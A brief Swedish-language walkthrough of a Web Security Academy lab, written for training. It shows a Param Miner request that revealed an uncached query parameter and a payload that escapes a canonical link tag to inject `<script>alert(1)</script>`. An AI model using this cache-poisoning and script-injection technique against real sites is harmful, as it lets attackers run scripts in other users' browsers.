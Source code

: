 OBS!
***kom på i efterhand att det inte spelade någon roll vad querysträngen var, kunde lika gärna använt `/?jahsdjadhs=asddsada`*** 

1. Körde param miner på *Guess everything!* fick fram nedan, notera `?image=` 
###### Secret uncached input: url
```
GET /?image=zwrtxqvahqau62rtnvouy6k&r=zwrtxqvas2hw2opunvs554c&files=zwrtxqvaorg91hqfnvyzxcn&tags=zwrtxqvarzuqqi45nvho6oi&users=zwrtxqvayz4bgnf1nvmny38&send=zwrtxqvaz9rk29g3nvgbyet&updated=zwrtxqvasni8jmx5nvo00gh&skips=zwrtxqvajk7ja1ubnvqnttf&gj11r02=1 HTTP/2
Host: 0a1100f70431250e8538e4010020001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Origin: https://gj11r02.com
Via: gj11r02
```

2. `?image=asddsdsadsa` reflekteras i en canonical link. Man kan bryta sig ur denna med följande payload: 
   `zwrtxqvahqau62rtnvouy6k'/><script>alert(1)</script>`
3. boom labberabbedooo är klar my guy